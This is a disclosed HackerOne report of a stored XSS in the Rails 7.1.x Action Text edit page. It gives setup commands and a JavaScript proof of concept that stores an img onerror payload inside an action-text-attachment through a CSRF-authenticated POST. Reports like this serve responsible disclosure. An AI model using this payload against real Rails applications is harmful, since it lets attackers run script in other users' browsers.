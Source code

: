 # Action Text XSS (Rails 7.1.x)

## Report Details
- **Report ID**: 2389565
- **URL**: https://hackerone.com/reports/2389565
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2024-02-25T13:50:14.371Z
- **Disclosed**: 2025-02-04T05:47:29.433Z

## Reporter
- **Username**: ooooooo_q
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: rails

## Vulnerability Information
I have confirmed that XSS occurs on the Action Text edit ui.
XSS is triggered when attempting to edit the text in which the crafted values are stored.

### PoC

Prepare the environment.

```
❯ rails new -C  -G -T text
# => Rails 7.1.3.2, Ruby 3.2.3

❯ cd text

❯ bin/rails g scaffold Blog title:string body:rich_text

❯ bin/rails action_text:install

❯ bundle install

❯ bin/rails db:migrate

❯ bin/rails s
```

Open `http://localhost:3000/blogs/new`  and send the following from the developer tools

```js
function escapeHTML(str) {
    var div = document.createElement('div');
    div.appendChild(document.createTextNode(str));
    return div.innerHTML;
}

html = "<img src=. onerror='alert(location)' />"
html_text = '<action-text-attachment content-type="text/html" content="'+ escapeHTML (html) +'"></action-text-attachment>'

csrfToken = document.querySelector("meta[name='csrf-token']").content

fetch("http://localhost:3000/blogs", {
  "headers": {
  	"content-type": "application/x-www-form-urlencoded;charset=UTF-8",
    "x-csrf-token": csrfToken,
  },
  "body": "blog%5Btitle%5D=aaa&blog%5Bbody%5D=" +encodeURIComponent(html_text)+ "&commit=Create+Blog",
  "method": "POST",
});
```

Can confirm that XSS does not fire on the `http://localhost:3000/blogs/xxx/show` page, 

{F3079164}

but XSS does occur on the `http://localhost:3000/blogs/xxx/edit` page. 

{F3079167}

## Impact

If multiple users have access to the same edit page, an XSS-based attack is possible between users.

This vulnerability is probably due to https://github.com/rails/rails/pull/45739 PR and was not reproduced in Rails 7.0.

## Attachments
- 7_1_show.png
- 7_1_edit.png
